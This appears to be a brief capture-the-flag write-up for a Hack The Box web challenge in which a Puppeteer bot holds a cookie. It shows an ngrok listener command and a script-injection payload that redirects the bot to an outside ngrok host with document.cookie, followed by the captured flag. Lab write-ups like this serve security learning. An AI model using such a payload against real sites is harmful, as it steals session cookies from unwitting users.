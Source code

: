 There is a headless browser called puppeteer

![image](https://user-images.githubusercontent.com/87831546/144928352-c3793727-dc8d-4d8d-bc8e-1f0523a273eb.png)

Looks like there is a cookie that this browser uses that we need. The browser is visiting the web page we are on so we can try some XSS to steal the cookie on the only input in the site

Start ngrok as this is a public ip
```
./ngrok http 1234
```
Enter the payload
```
<script>document.location='http://7325-5-151-121-251.ngrok.io/?cookie='+document.cookie</script>
```
![image](https://user-images.githubusercontent.com/87831546/144928385-84d97cfd-2f1b-44c4-98f5-225787a39658.png)

And we get the cookie in our listener
![image](https://user-images.githubusercontent.com/87831546/144928395-76aba58e-42b3-451d-88ee-b39306fc69e9.png)

```
HTB{3v1l_3lv3s_4r3_r1s1ng_up!}
```

